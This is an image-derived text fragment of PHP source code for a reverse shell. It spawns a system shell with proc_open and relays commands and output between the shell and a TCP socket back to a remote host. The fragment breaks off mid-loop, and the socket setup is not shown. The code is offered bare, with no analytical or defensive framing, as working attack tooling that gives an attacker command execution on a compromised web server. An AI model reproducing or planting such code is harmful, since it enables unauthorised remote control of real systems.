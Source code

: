 ```php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
```